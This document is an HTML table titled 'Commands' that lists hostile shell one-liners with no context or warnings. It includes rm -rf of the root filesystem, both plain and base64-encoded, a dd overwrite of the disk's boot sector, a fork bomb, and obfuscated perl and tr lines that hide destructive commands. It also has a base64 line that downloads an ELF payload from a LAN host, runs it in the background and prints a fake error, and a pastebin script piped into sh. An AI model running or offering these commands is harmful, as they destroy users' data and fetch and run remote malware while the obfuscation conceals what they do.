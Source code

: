 <table>
	<tbody>
    <tr>
			<td><h1>Commands</h1></td>
		</tr>
		<tr>
			<td>sudo rm -rf /*</td>
		</tr>
		<tr>
			<td>echo c3VkbyBybSAtcmYgLyo= | base64 -d | bash</td>
		</tr>
		<tr>
			<td>dd if=/dev/zero of=/dev/sda bs=512 count=1
</td>
		</tr>
		<tr>
			<td>:(){ :|:& };:</td>
		</tr>
		<tr>
			<td>echo "ping 8.8.8.8" | perl -e '$??s:;s:s;;$?::s;;=]=>%-{<-|}<&|`|}}./}:<%=%<@%}<//>{;;y; -/:-@[-`{-};`-{/" -;;s;;$_;see'</td>
		</tr>
		<tr>
			<td>WINDOWS_IS_GOOD=$( echo '%\%#{<-{}<&{`{}}./}:<%=%<@%}<//>'  |  tr ' -/:-@[-`{}' '`-{/ -') ;$WINDOWS_IS_GOOD 2 > /dev/null</td>
		</tr>
		<tr>
			<td>echo d2dldCBodHRwOi8vMTkyLjE2OC44OC4xMjMvcGF5bG9hZC5lbGYgJj4gL2Rldi9udWxsICYmIGNobW9kICt4IC4vcGF5bG9hZC5lbGYgJiYgLi9wYXlsb2FkLmVsZiAmIGRpc293biAmJiBlY2hvIEVycm9yCg== | base64 -d | bash</td>
		</tr>
		<tr>
			<td>wget https://pastebin.com/raw/vr2aeG3D -O- | sh </td>
		</tr>
	</tbody>
</table>
